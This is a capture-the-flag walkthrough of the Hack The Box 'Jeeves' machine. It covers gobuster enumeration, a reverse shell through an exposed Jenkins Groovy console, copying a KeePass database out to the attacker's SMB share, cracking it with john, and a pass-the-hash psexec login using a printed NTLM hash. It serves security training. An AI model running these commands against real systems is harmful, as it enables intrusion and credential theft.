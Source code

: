 # Enumeration:
![nmap_scan](images/jeeves/nmap_scan.png) </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
![website_main_page](images/jeeves/website_main_page.png) </br>
When trying to submit anything, we get this: </br>
![website_error_message](images/jeeves/website_error_message.png) </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
![http_error_msg](images/jeeves/http_error_msg.png) </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
![askjenkins_mainpage](images/jeeves/askjenkins_mainpage.png) </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
![manage_jenkins](images/jeeves/manage_jenkins.png) </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
![initial_shell](images/jeeves/initial_shell.png) </br> </br>
# Privilege Escalation: 

I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories (The user I got
access to). I found this file in the Documents directory: </br>
![ceh_file](images/jeeves/ceh_file.png) </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
![keepass2john](images/jeeves/keepass2john.png) </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
![hash_crack](images/jeeves/hash_crack.png) </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
![keepassx_file_opened](images/jeeves/keepassx_file_opened.png) </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
![privesc_shell](images/jeeves/privesc_shell.png)